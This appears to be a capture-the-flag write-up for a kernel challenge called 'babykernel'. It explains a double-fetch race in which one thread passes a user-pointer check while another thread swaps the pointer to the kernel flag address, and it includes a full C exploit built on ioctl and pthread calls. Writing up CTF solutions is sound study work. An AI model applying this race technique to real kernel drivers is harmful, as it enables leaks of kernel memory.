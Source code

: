 # babykernel

*double fetch	race without uffd*



## Vulnerability

​	It is a classic double fetch vulnerability. 

​	The flag string lies in the kernel space memory, and the kernel module will give you its address by `cmd=26214`. By `cmd=0x1337` the kernel module first checked the legality of the user pointer, then compared its content with the flag string in kernel memory. If matches, the module will print the flag string.

<img src="pic/2021-11-05 20-15-05 的屏幕截图.png" alt="2021-11-05 20-15-05 的屏幕截图" style="zoom:50%;" />

​	The legality check includes:

1. the string length pointed by the user pointer should have the same length as the flag string.
2. the user pointer should pointer to user space.
3. the string pointed by the user pointer should fully lies in user space.



​	So we need to find a way to let the kernel print the flag string, which means we need to pass the the several check and then make the value of  the user pointer equals the address of the flag string inside the kernel space memory. We will achieve this by race.



## Exploit

from the top level we:

1. issue an ioctl with `cmd=26214` to get the address of the flag string in the kernel space memory
2. start a thread, which keep issuing ioctl with `cmd=0x1337` with a legal pointer which will pass the legality check
3. start another thread at the same time, which keep changing the legal pointer value to the address of the flag string in the kernel space memory, which will make the comparing between the user pointer with the flag string return true, resulting the module printing the flag string



### implementation

​	Too trivial to explain

```c
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <pthread.h>

#define MAXTRY 0x10000

int fd;
unsigned long flag_addr = 0;
void get_flag_addr(int fd){
    ioctl(fd, 26214);
    system("dmesg > /tmp/dmesg");
    int fd_dmesg = open("/tmp/dmesg", O_RDONLY);
    if(!fd_dmesg){
        puts("[-] failed open /tmp/dmesg");
        exit(0);
    }
    lseek(fd_dmesg, -200, SEEK_END);
    char buf[300] = {0};
    read(fd_dmesg, buf, 200);
    char *p = strstr(buf, "Your flag is at ");
    if(p){
        p+=16;
        flag_addr = strtoull(p, &p, 16);
        printf("[+] flag load at %lx\n", flag_addr);
    }else{
        puts("[-] failed when searching flag addr");
    }
    close(fd_dmesg);
}

struct info{
    char *s;
    unsigned long len;
};


struct info info;
int finish=0;

void* evil(){
    while(!finish){
        info.s = (char*)flag_addr;
    }    
}


int main(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0); 
    fd = open("/dev/baby", O_RDWR);
    get_flag_addr(fd);
    
    char dummy[10] = {0};
    info.s = dummy;
    info.len = 33;

    pthread_t t;
    pthread_create(&t, NULL, evil, NULL);
    for(int i=0;i<MAXTRY;i++){
        info.s = dummy;
        ioctl(fd, 0x1337, &info);
    }
    finish = 1;
    pthread_join(t, NULL);
    system("dmesg | grep flag");
    close(fd);
    return 0;
}
```



### someting to mention

​	The legality check to the user space pointer is implemented like

<img src="pic/2021-11-05 20-35-17 的屏幕截图.png" alt="2021-11-05 20-35-17 的屏幕截图" style="zoom:50%;" />



​	The `current_task+0x1358` stores the address of the last page of user space memory

